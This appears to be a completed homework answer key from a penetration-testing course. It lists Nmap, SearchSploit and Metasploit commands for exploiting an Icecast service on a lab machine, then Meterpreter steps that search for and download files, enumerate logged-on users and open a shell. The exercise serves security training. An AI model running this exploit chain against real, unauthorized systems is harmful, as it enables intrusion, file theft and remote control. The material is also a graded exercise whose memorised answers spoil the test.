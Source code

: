 ## Homework: Penetration Test Engagement

#### Deliverable

- [Report.docx](resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```sudo msfconsole```
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```exploit```
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -d C:\\Users -f "secretfile.txt"```
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -d C:\\Users -f "recipe.txt"``` 
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: Once in directory or add path to directory```download recipe.txt```

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```
 
     
B. Open a Meterpreter shell. 
 
  > Answer: ```shell```
 
C. Run the command that displays the target's computer system information:

   > Answer: ```sysinfo```